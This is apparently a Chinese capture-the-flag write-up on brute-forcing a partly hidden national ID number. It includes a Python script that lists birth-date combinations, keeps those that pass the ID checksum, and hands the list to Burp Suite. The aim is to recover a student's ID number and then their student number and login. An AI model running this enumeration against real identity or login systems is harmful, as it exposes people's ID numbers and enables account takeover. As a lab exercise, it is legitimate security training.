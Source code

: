 # 身份信息爆破
## 题目破解

通过看到界面，我们需要知道学生的学号及密码才能登陆


而后我们看到录取信息及学生学籍信息查询系统，点击录取信息，我们可以得知学生的姓名及身份证的一部分信息，有8个数字隐藏


通过点击学生学籍查询系统，我们可以知道只要输入学生的姓名及身份证就可以得到学生的学号



因此通过这个思路，我们可以爆破这8个数字，而且我们还可以通过身份证的验证来排除一些错误的身份证号码，脚本如下：
```
card=[]
for i in range(1990,2000):
    for j in range(1,13):
        for k in range(1,32):
            if(int(j)<=9):
                month="0"+str(j)
            else:
                month=str(j)
            if(int(k)<=9):
                day="0"+str(k)
            else:
                day=str(k)
            a="621022"+str(i)+str(month)+str(day)+"5237"
            card.append(a)

def check(c):
    list1=[7,9,10,5,8,4,2,1,6,3,7,9,10,5,8,4,2]
    crc=[1,0,'X',9,8,7,6,5,4,3,2]
    ca=list(c)
    sum1=0
    num=int(len(ca))-1
    for i in range(0,num):
        sum1=sum1+int(ca[i])*int(list1[i])
    sum1=sum1%11
    if(str(ca[len(ca)-1])==str(crc[sum1])):
        return 1
    else:
        return 0

if __name__=='__main__':
    f=open("result.txt","w")
    for i in range(0,len(card)):
        if(check(card[i])==1):
            d=card[i]+'\n'
            f.writelines(d)
            f.flush()

```

通过生成的字典，将其放在burpsuit中跑即可
